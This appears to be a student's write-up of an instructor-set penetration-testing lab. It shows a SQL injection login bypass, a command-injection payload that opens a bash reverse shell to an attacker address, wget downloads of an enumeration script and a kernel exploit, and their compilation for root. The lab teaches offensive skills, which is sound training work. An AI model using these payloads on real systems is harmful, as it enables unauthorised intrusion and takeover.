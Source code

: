 # Keys to the Kingdom Pt. 1
A in depth walkthrough of how I solved a fairly realistic exercise one of my instructors put to me. This exercise was loads of fun and kept me entertained for quite a while with all of its little rabbit holes and misdirects. There will be 3 parts to this writeup as there were three different boxes to root. This is the first.

Shout out to [@Kyzen-gmg](https://github.com/Kyzen-gmg)  for the range and giving me the idea to do this writeup. 

### It begins...
This is how it started, with a post from an instructor of mine in our class’s Teams channel. "Find the 'Keys' To the Kingdom", he said and then posted a link to a file on google drive along with 3 IP addresses.

![S](Images/TheBegining1.png)
#### So we have a couple of clues. 
From just that introduction, I noticed a couple of things that could give me an idea on where to go with this.
1. Keys. I wonder what sort of keys he’s talking about? 
It could be a VPN key hidden in that packet capture, but it could also be an SSH key, or knowing him, it could be a misdirection. 

2. Our second clue comes from 2 of those IP's they are one after another in sequence. So it stands to reason they are on the same subnet and can only be accessed via this hypothetical VPN. 

#### Well only one way to find out! Lets open that pcap in Wireshark.

![S](Images/LotsOfPackets.png)

There are a little over 4000 packets in this pcap file but most of them don’t tell me much. They’re all around 90 in length. Maybe hidden within here is something more substantial. So, I sort by length and find a file that’s a bit longer. 

![S](Images/ThatsBetter.png)

That’s much better! A full OpenVPN key, and with a little research about OpenVPN keys (opening my Try Hack Me key in vim) I find that I can copy this text directly into a file with the extension `.ovpn` and connect to the range using the command ``sudo openvpn <filenamehere>.ovpn``

#### ***90s hacker voice*** Im in.
![S](Images/ImIn.png)

## Now, the real fun begins...

I start by enumerating all 3 of the obtained IP addresses using [@dievus'](https://github.com/dievus) fantastic [Threader3000](https://github.com/dievus/threader3000) tool. I truly love this little guy. It makes port scanning so much quicker and more automated by quickly telling you which ports are up and then constructing an Nmap scan tailored to that specific target. It only deeply scans the ports that its initial scan previously found to be open, which significantly speeds up your wait time. It also automatically outputs your scans into 3 different file formats which you can reference later. I love Threader3000 and cant sing its praises enough. So go check it out for yourself!
Anyway, back to port scanning starting with...
## Box 1
![S](Images/nmap1.png)

Going for the low hanging fruit (and the best option here), I decide to go check out the website on `8080`. I’m greeted with a basic admin login page with the URL extension, `index.php`. This lets gives me an idea that I may be able to perform some sort of injection, but I’m still not sure.

![S](Images/phpAdminPage.png)

So, I fire up Burp Suite and check out what’s happening when i hit the login button.

![S](Images/burping.png)

Ok there's probably something here. 
Let’s send this to the repeater module in Burp and check out what’s going on. `ctrl+R` is a quick shortcut for moving requests from the Proxy tab into the Repeater Tab. Here, I can manipulate requests for testing the right sort of attack.
I’m focusing on the bottom line of this request, as this is where username and password data goes. I added a single character in the username field and got this response back.

![S](Images/burping2.png)

This looks like its the HTML for the login page, but what if I put some SQL into that field?
Maybe like, a common administrator name like `admin` along with `'OR '1'='1` What would happen?

![S](Images/burping3.png)

#### It worked!!!
Then I just take that same text `admin' OR '1'='1` and plug it into the username field on the actual site and I should be taken to the administrative console...

![S](Images/adminConsole.png)

Awesome, now we can probably use this ping page to get a shell into the actual machine. So, lets figure out how to do that.
First i typed an IP `127.0.0.1` into the field and got a pretty generic response. 
Sure, that it was pinging, I tried to see if I could piggyback on that ping command using the semicolon

So, I pinned a Print Working Directory command to the end of that local host ping `127.0.0.1;pwd` and got something much better.

![S](Images/Localpwd.png)

From here it was just a matter of making this machine (target) call back to my (attacker) machine.
As always, I set up a net cat listener on my (attacker) machine using the command `nc -lvnp 4444` and then I went over to [pentest monkey's reverse shell cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) where I got the bash reverse shell.

When appended to the end of the localhost ping, the final command looked like this: 
`127.0.0.1;bash -i >& /dev/tcp/10.0.0.0/4444 0>&1`

#### Voila
![S](Images/revShell1.png)

Now we have to escalate our privileges. This is the part that took me the longest on this box as I was running around searching for an exploit that would work here. But we will skip over all of that and get straight into the meat. First I needed to check who I was, `id` let me know that I was apache and a `pwd` showed that I spawned in the `/var/www` directory.
Then I quickly upgraded my shell using `python -c 'import pty; pty.spawn("/bin/bash")'`
I couldnt touch any of the user accounts and I most definately didnt have root access. So, I decided to go to `/tmp` and see if I could place any files in there.
A quick `touch 1.txt` inside the directory, confirmed that I could. So, I went and grabbed a copy of linenum.sh, and saved it into my local directory where I was keeping all of the information about this box (nmap scans, notes, exploit code, etc.). 
**Note:** staying organized during engagements is incredibly important. What I often do is create a subdirectory within my home directory and just work out of that the whole time. This helps keep everything organized and lets me refer back to things later if needed.


On my machine:

`python3 -m http.server`

On target machine:

`wget http://m.y.i.p:8000/linenum.sh`

`chmod +x linenum.sh`

`./linenum.sh`

Unfortunately, I didn’t get much information out of that, but I got enough. Which allowed me to go and search for an exploit to escalate my privileges.

![S](Images/linenumOutput.png)

## The Final Stage

Now that the OS and Kernel version are both confirmed, it’s a good time to go search for a relevant exploit. I chose to use searchsploit for this on my Kali Box. 

![S](Images/searchsploit.png)

This first exploit looks promising. So, I copy the file to my engagement directory `cp /usr/share/exploitdb/exploits/linux/local/9545.c /your/engagement/directory/9545.c`and start a python http server inside of it `python3 -m http.server`

The server defaults to port 8000, so on the target machine (in /tmp) I ran `wget http://m.y.i.p:8000/9545.c` which copied the exploit over to the target machine.

![S](Images/exploitcopy.png)

Finally, its time to compile and exploit. This can all be done with one single command by to using the gcc compiler on 9545.c and outputting to another file called 9545. Then using `&&` to run the new 9545 file after the compiling is completed.  

The final command looks like this: `$ gcc 9545.c -o 9545 && ./9545`

![S](Images/rootaccess.png)

**ROOT ACHIEVED**

## Final thoughts on this first box

Well, I had a great time with this exercise. It was a good way to get some practice with Linux privilege escalation exploits that I don’t often get to use. Most of my experience with Linux priv esc comes in the form of exploiting cronjobs or SUID permissions. So, this was a welcome change of pace for me. 

Any questions? Comments? Want to tell me I got something wrong? Feel free to contact me via email: jwautry93@gmail.com you can also reach out to me on my [LinkedIn](https://www.linkedin.com/in/jwautry/) 

More write-ups will be coming in the future, so make sure to keep a look out for those. I have 2 more boxes to chronicle in this series and loads more projects to take on after that.

**Thanks for reading!**

-J
